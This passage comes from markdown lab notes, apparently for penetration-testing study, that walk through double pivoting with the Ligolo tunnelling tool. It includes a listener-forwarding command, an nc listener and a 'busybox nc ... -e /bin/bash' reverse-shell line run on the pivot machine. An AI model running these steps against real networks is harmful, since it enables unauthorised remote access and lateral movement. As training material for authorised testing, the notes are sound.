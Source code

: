 - [ ] Start the tunnel on the proxy on your Kali Machine
```
start
Yes
```
- On your server it should show
	- `Tunnel already running, switch from HEENTAI\amongus@computer01 to HEENTAI\fanservice@machine01? (y/N)`
	- `INFO[2781] Closing tunnel to HEENTAI\fanservice@machine01...`
	- `Starting tunnel to HEENTAI\fanservice@machine01`

# Create listener (Double pivot)

- [ ] View listeners on Ligolo server on your Kali Machine
```
listener_list
```

## Create listener for reverse shell (Double pivot)

- [ ] Ensure you are in the right session on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select

- [ ] On your Kali Machine, create a TCP listening socket on the agent (0.0.0.0:9696) and redirect connections to the 6969 port of the proxy server.
```
listener_add --addr 0.0.0.0:9696 --to 127.0.0.1:6969 --tcp
```

- [ ] Ensure listener is added on your Ligolo server
```
listener_list
```

- [ ] Start nc listener on your Kali Machine
```
nc -nlvp 6969
```

- [ ] Start a reverse shell connection to the listener on the ligolo agent at the Double Pivot Machine
```
busybox nc 10.20.yyy.254 9696 -e /bin/bash
```

## Create listener for file transfer (Double pivot)

- [ ] Ensure you are in the right session on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select
